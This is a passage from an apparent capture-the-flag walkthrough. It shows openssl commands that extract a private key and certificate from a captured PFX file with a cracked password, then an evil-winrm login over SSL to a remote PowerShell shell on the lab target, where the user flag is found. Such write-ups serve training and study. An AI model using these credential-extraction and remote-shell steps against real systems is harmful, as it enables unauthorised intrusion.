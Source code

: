 ```
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]
```

and extracting the certificate (public key)

```
openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [drlive.crt]
```
use import password 'thuglegacy'
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out public.crt
Enter Import Password:
```
use import password 'thuglegacy'

set your own PEM passphrase. It must be at least 4 characters long. I recommend making something short as you will be entering this a lot.
```
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

### Win-RM Session

We can begin a Win-RM session in the following way to get a session as legacyy. Note that while the default port for win-RM is 5985, because we are using SSL session flags, evil-winrm detects that we should use win-rm ssl port 5986 without having to specify it.

```
└─$ evil-winrm -u legacyy -p thuglegacy -S -c public.crt -k private.key -i 10.10.11.152

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> ls
```

We can navigate to the Desktop and grab the user flag.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ls


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/2/2022  12:31 AM             34 user.txt
```
